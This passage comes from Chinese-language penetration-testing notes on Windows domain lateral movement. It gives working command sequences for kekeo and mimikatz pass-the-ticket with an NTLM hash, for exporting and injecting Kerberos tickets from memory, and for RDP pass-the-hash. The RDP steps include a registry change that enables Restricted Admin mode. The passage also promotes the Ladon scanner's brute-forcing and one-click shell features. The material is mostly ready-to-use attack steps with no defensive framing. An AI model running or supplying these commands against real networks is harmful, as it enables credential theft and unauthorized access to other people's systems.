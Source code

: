* kekeo工具

```powershell
1.生成票据
.\kekeo "tgt::ask /user:wz /domain:test.com /ntlm:518b98ad4178a53695dc997aa02d455c"
kekeo "tgt::ask /user:wz /domain:test.com /ntlm:518b98ad4178a53695dc997aa02d455c"
2.导入票据
kerberos::ptt TGT_wz@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
3.查看凭证 klist
4.利用 net use 载入
dir \\192.168.10.1\c$
dir \\dc01.test.com\c$
```

* 利用本地票据（需要管理权限）

这个主要是其他用户在本机上登录过，该电脑上存在其他用户的票据，存活时间大概十小时，这样可以伪装其他用户去登录主机

```powershell
sekurlsa::tickets /export
kerberos::ptt xxxxxxxxxx.xxxx.kirbi # 筛选下导入内存的票据 
当导出票据后，最好将票据和mimikatz放在同一个目录中
```

#### 案例四 国产Ladon内网杀器

> Ladon一款用于大型网络渗透的多线程插件化综合扫描神器，含端口扫描、服务识别、网络资产、密码爆破、高危漏洞检测以及一键GetShell，支持批量A段/B段/C段以及跨网段扫描，支持URL、主机、域名列表扫描。8.6版本内置115个功能模块,外部模块18个,通过多种协议以及方法快速获取目标网络存活主机IP、计算机名、工作组、共享资源、网卡地址、操作系统版本、网站、子域名、中间件、开放服务、路由器、数据库等信息，漏洞检测包含MS17010、SMBGhost、Weblogic、ActiveMQ、Tomcat、Struts2系列等，密码爆破13种含数据库(Mysql、Oracle、MSSQL)、FTP、SSH、VNC、Windows(LDAP、SMB/IPC、NBT、WMI、SmbHash、WmiHash、Winrm)、BasicAuth、Tomcat、Weblogic、Rar等，远程执行命令包含(wmiexe/psexec/atexec/sshexec/jspshell),Web指纹识别模块可识别75种（Web应用、中间件、脚本类型、页面类型）等，可高度自定义插件POC支持.NET程序集、DLL(C#/Delphi/VC)、PowerShell等语言编写的插件,支持通过配置INI批量调用任意外部程序或命令，EXP生成器可一键生成漏洞POC快速扩展扫描能力。Ladon支持Cobalt Strike插件化扫描快速拓展内网进行横向移动

信息收集-协议扫描-漏洞探针-传递攻击

### Cobalt Strike

#### 案例一 横向移动RDP传递-Mimikatz

> 远程连接协议，3389端口

```powershell
# 除了上述讲到的IPC,WMI,SMB等协议的链接外，获取到的明文密码或HASH密文也可以通过RDP协议进行链接操作
# RDP明文密码链接(对方的3389端口是否开启)通过端口扫描来判断，连接不成功，说明对方端口关闭
windows: mstsc
mstsc.exe /console /v:192.168.10.1 /admin
linux: 
rdesktop 192.168.10.1:3389
# RDP密文HASH链接
# windows server需要开启 Restricted Admin mode,在Windows8.1和Windows server 2012 R2中默认开启，同时如果windows 7和Windows server 2008R2安装了2871997、2973351补丁也支持；开启命令
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
# 开启后运行
mstsc.exe /restrictedadmin
mimikatz.exe
privilege::debug
sekurlsa::pth /user:administrator /domain:god /ntlm:ccef2-8c6485269c20db2cad21734fe7 "/run:mstsc.exe /restrictedadmin"
```
